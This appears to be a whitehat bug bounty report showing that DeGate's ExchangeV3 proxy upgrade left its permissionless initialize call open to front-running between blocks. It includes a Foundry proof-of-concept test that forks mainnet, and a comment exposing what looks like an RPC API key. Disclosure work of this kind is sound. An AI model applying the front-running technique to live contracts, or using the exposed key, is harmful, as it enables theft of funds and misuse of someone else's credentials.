 # The implementation upgrade must be done by calling the upgradeToAndCall function to avoid frontrunning of the initialization.

Submitted 28 days ago by @Paludo0x (Whitehat) for BOOSTED: DeGate Bug Bounty

Report ID: #26073

Report type: Smart Contract

Has PoC? Yes

Target: https://etherscan.io/address/0x9C07A72177c5A05410cA338823e790876E79D73B#code

# Impacts
- Contract fails to deliver promised returns, but doesn't lose value
- Impact caused by the unintended functionality of multisig owners

# Details

Description

Bug Description

The implementation upgrade in the ExchangeV3 proxy was performed by sequentially calling:

1. upgradeTo function of the proxy https://dashboard.tenderly.co/tx/mainnet/0x618d6d6bdaa4be3257aa4c695f9c10806e261f0e9759fc3133a5798fed43c062?trace=0
2. initialize function of the implementation https://dashboard.tenderly.co/tx/mainnet/0x3c5629d35e75eb6b1e3e17e73ea16f3638c46a120a1f31bb8988f9db89bf483a?trace=0
3. transferOwnership function of the implementation https://dashboard.tenderly.co/tx/mainnet/0x9e6c119e7acaa30e62ef7bc12096dc6bd74ea38b1341aa2ecaeb9092c1e37a01?trace=0
4. claimOwnership function of the implementation https://dashboard.tenderly.co/tx/mainnet/0x238ba9b1141f396446013989c947851eba3629e81121347f6d66f167f8823469?trace=0.2.1

The issue is that upgradeTo and initialize calls have been done at different blocks (respectively 18552107 and 18552108). That imply that anyone could have front run the initialize call because it is done throug fallback function of proxy contract which is permissionless.

Function initialize is the following:
```
    function initialize(
        address _loopring,
        address _owner,
        bytes32 _genesisMerkleRoot,
        bytes32 _genesisMerkleAssetRoot
        )
        external
        override
        nonReentrant
        onlyWhenUninitialized
    {
        require(address(0) != _owner, "ZERO_ADDRESS");
        owner = _owner;

        state.initializeGenesisBlock(
            _loopring,
            _genesisMerkleRoot,
            _genesisMerkleAssetRoot,
            EIP712.hash(EIP712.Domain("DeGate Protocol", version(), address(this)))
        );
    }
```
So, the initialize function initializes:

1. the owner of the implementation (not of the proxy, which is stored in a different slot)
2. the loopring address
3. genesisMerkleRoot
4. genesisMerkleAssetRoot

We must consider that the upgrade function is called when the implementation is initialized for the first time or when the implementation is updated to a new version. In the last case it should be called by the multisig and the timelock after at least 45 days. Therefore, resolving the issue could take a long time and a revert of the transaction could be unnoticed.

# Impact
What could be the effects of initialization by any user?

If a malicious user set up a different owner, fortunately, this can be changed by the proxy owner but at later time if the proxy owner is the Timelock.

At the moment, I canno comment the effects of initializing with counterfeit genesisMerkleRoot and genesisMerkleAssetRoot.

Eventually, in my opinion, the biggest problem is Loopring address. A malicious user could deploy a fake Loopring contract similar to the real one but with a backdoor usable by the malicious user himself. While the other initialization parameters (owner and merkle roots) would be the equivalent to the ones of the legitimate transsaction. This situation could be unnoticed by legitimate owners.

# Proof of concept
The POC verifies that any user can call initialize the function after upgrading of implementation and if the same function is called by the owner afterwards it reverts because already initialized. It shall be run with foundry with the following command forge test --match-test test_initialize_frontRun --fork-url YOUR_RPC_URL --fork-block-number 18552107
```
// SPDX-License-Identifier: UNLICENSED
pragma solidity >=0.6.2 <0.9.0;
pragma abicoder v2;

import {Test, console2} from "forge-std/Test.sol";
import {OwnedUpgradabilityProxy} from "../contracts/thirdparty/proxies/OwnedUpgradabilityProxy.sol";  
import {LoopringIOExchangeOwner} from "../contracts/aux/access/LoopringIOExchangeOwner.sol";  
import {ExchangeV3} from "../contracts/core/impl/ExchangeV3.sol";  
import {ILoopringV3} from "../contracts/core/impl/ExchangeV3.sol";  

interface IMultiSigWallet {
        function removeOwner(address owner) external;
        function addOwner(address owner) external;
}
contract TestPlaygorund is Test {

    address constant contractsDeployer = 0xacD3A62F3eED1BfE4fF0eC8240d645c1F5477F82;
    OwnedUpgradabilityProxy constant excV3ProxyInterfDeployed = OwnedUpgradabilityProxy(0x9C07A72177c5A05410cA338823e790876E79D73B);
    ExchangeV3 constant excV3ProxyImplDeployed = ExchangeV3(0x9C07A72177c5A05410cA338823e790876E79D73B);
    address constant anyUser = address(0xbee);


    //forge test --match-test test_initialize_frontRun --fork-url https://eth-mainnet.g.alchemy.com/v2/gSyV-SZAsIZGOyq7gTEOclsvkFL3dJ94 --fork-block-number 18552107
    function test_initialize_frontRun() public {
    
        //on block 18552107 deployer account (which is actual Proxy Owner) updates implementation address to 
        //https://dashboard.tenderly.co/tx/mainnet/0x618d6d6bdaa4be3257aa4c695f9c10806e261f0e9759fc3133a5798fed43c062

        //we fork from block 18552108, i.e. when function "initialize" is triggered
        address loopring =0x9385aCd9d78dFE854c543294770d0C94c2B07EDC;
        address owner = contractsDeployer;
        bytes32 genesisMerkleRoot = 0x03e1788bf14436c39a3841ae888ffb3e6ec8405bc2773afa28b6d4dfc309cf19;
        bytes32 genesisMerkleAssetRoot = 0x071c8b14d71d432750479f5fe6e08abe1ec04712835a83cdf84d0483b9382ae8;

   
        //I would have loved to check the different loopring value but I'm getting stack too deep error
        //(,,ILoopringV3 tempLoopring,,,,,,,,,,) = excV3ProxyImplDeployed.state();
        
        //we verify that owner is unitialized
        console2.log("Owner address before initialize", excV3ProxyImplDeployed.owner() );

        //any user frontruns and call initialize, he could have changed parameters as he like
        vm.startPrank(anyUser);
        excV3ProxyImplDeployed.initialize(loopring, owner, genesisMerkleRoot, genesisMerkleAssetRoot);
        vm.stopPrank();
        console2.log("Owner address after initialize", excV3ProxyImplDeployed.owner() );

        //try to call initialize function by owner
        vm.startPrank(owner);
        vm.expectRevert("INITIALIZED");
        excV3ProxyImplDeployed.initialize(loopring, owner, genesisMerkleRoot, genesisMerkleAssetRoot);
        vm.stopPrank();
    }
}
```
